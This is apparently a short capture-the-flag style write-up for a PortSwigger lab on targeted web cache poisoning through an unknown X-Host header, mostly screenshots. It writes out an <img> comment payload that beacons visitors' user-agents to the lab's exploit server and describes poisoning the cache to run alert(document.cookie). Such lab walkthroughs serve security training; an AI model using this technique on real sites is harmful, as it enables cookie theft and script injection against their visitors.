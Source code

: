# Targeted web cache poisoning using an unknown header

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs

### HINT: use extension param miner

---

### step 1

right click on / (home page of the lab) go to extension then param miner then guess param then guess header now go to extension

![screenshot](images/lab4_param_miner.jpg)

### step2

add X-Host: example.com

![screenshot](images/lab4_x_host.jpg)

### step3

![screenshot](images/lab4_expolite_payload.jpg)

### step4

![screenshot](images/lab4_x_host_repeater.jpg)

### step5

![screenshot](images/lab4_alert_box_pop_up.jpg)

### step6

to solve the lab we need user agent
so in comment section
`<img src="https://exploit-0aeb003b04c9a0da81c5ddc3010b00ac.exploit-server.net/test" />`

![screenshot](images/lab4_comment_with_payload.jpg)

### step7

go to log section
copy user-agent

![screenshot](images/lab4_access_log_expolit.jpg)

### step8

paste user-agent into repeter

![screenshot](images/lab4_user_agent_repeter.jpg)

reload home page lab solved
